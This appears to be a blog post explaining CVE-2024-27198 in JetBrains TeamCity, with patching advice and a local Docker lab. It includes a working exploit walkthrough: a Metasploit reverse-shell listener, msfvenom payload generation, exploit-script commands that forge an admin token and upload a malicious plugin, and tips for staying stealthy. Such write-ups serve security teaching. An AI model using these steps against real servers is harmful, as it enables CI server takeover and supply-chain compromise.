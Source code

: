 ```yaml
---
title: 'TeamCity Authentication Bypass Vulnerability - CVE-2024-27198'
date: '2024-3-10'
category:
  - 'security'
tags:
  - 'cve'
  - 'teamcity'
  - 'exploit'
  - 'jetbrains'
summary: Learn how to exploit CVE-2024-27198, a critical authentication bypass vulnerability found in JetBrains TeamCity's web component.
coverImage: '/static/images/teamcity.jpg'
---
```

# Understanding CVE-2024-27198: A Critical Authentication Bypass Vulnerability

## Introduction

[CVE-2024-27198](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-27198) is a severe security flaw with a CVSSv3 score of 9.8, indicating its critical nature. This vulnerability is present in the web component of JetBrains TeamCity and is caused by an alternate path issue, which can be exploited to bypass authentication mechanisms.


## Important Note ⚠️

#### If you are affected by this vulnerability do not delay and patch your instances now. More information about patching can be found at [JetBrains Blog](https://blog.jetbrains.com/teamcity/2024/03/additional-critical-security-issues-affecting-teamcity-on-premises-cve-2024-27198-and-cve-2024-27199-update-to-2023-11-4-now/)

---
## Detailed Exploit Analysis

The vulnerability stems from a weakness in the `BaseController` class within the `web-openapi.jar` library of TeamCity. When an API endpoint receives a request appended with `.jsp`, the `BaseController` class erroneously allows the request to bypass the standard authentication process. This flaw can be exploited by an attacker to gain unauthorized administrative access to the TeamCity server. [[Source](https://www.wiz.io/blog/jetbrains-teamcity-authentication-bypass-vulnerabilities-cve-2024-27198-cve-2024-27199)]

### The Alternate Path Issue

An alternate path issue occurs when software provides an unintended route to a goal that should be protected by authentication. In the case of CVE-2024-27198, the alternate path allows attackers to manipulate the URL to access authenticated endpoints directly, bypassing the login mechanism and gaining full control over the server.

### The Impact on TeamCity

Exploiting CVE-2024-27198 grants attackers complete control over all TeamCity projects, builds, agents, and artifacts. This level of access not only compromises the integrity of the server but also opens the door to more extensive supply chain attacks, where the attacker could insert malicious code into software builds.

## Setting Up and Executing the Exploit on Kali Linux

To demonstrate the exploit, one can set up a vulnerable TeamCity environment using Docker on Kali Linux:

```bash
# Pull a vulnerable TeamCity Server docker image (version: 2023.11.3)
docker pull jetbrains/teamcity-server:2023.11.3

# Run the docker container
docker run -it -d --name teamcity -u root -p 8111:8111 jetbrains/teamcity-server:2023.11.3
```
Navigate to http://localhost:8111 and complete the setup steps to finish server setup.

### Prepare the listener
In a separate terminal window open a listener:
```bash
# Open a listener in metasploit 
msfconsole -q -x "use multi/handler; set payload java/jsp_shell_reverse_tcp; set lhost eth0; set lport 8088; exploit"
```


### Execute! Execute! Execute! 💥
After the server and listener are running, the exploit can be executed using the provided Python script.

Let's think about this realistically for a moment. The vulnerability allows us to bypass authentication and execute functionality via available JSPs. With that in mind, let's approach this from a stealth engagement perspective. We should first list the users on the server, obtain the userID we are interested in (preferably an admin), and then create a token for the admin with a realistic name (such as `cicdconnector`).

> It would be a safe assumption that an admin user likely exists at `userid=1` but it is good practice to check. 

So let's do that now! In a terminal run the following:

```bash
# Clone the exploit repository
git clone https://github.com/NetPenguins/CVE-2024-27198-RCE
cd CVE-2024-27198-RCE

# Create a jsp shell, I like to use https://www.revshells.com to do basic and quick executions like this. 
msfvenom -p java/jsp_shell_reverse_tcp LHOST=eth0 LPORT=8088 -f raw -o shell.jsp

# Execute the exploit script gathering all users
python CVE-2024-27198-RCE.py -t http://localhost:8111 -g

# User the userid you found to complete the exploit into RCE
python CVE-2024-27198-RCE.py -t http://localhost:8111 -i 1 -f shell.jsp -e -n cicdconnection
```

This script will create a new access token named `cicdconnection` using the user ID we pass in. 
Then it will create a plugin `.zip` using the `shell.jsp` we generated previously and upload + activate the plugin. 
Lastly, it will launch the malicious JSP using the user's token, opening a connection to the established listener. 
In this way, we are able to leverage a user that already exists and generate an access token that looks like a plausible token this user might have generated. 
The only thing that stands out at this point (excluding the noise we are likely making on the network) is the addition of an external plugin inside the TeamCity server.


## Conclusion

CVE-2024-27198 is a critical vulnerability that requires immediate attention from administrators of TeamCity On-Premises installations. 
The alternate path issue at the heart of this vulnerability highlights the importance of thorough security practices in software development and the necessity of regular updates and patches. 
If you are affected by this vulnerability do not delay and patch your instances NOW [JetBrains Blog](https://blog.jetbrains.com/teamcity/2024/03/additional-critical-security-issues-affecting-teamcity-on-premises-cve-2024-27198-and-cve-2024-27199-update-to-2023-11-4-now/)

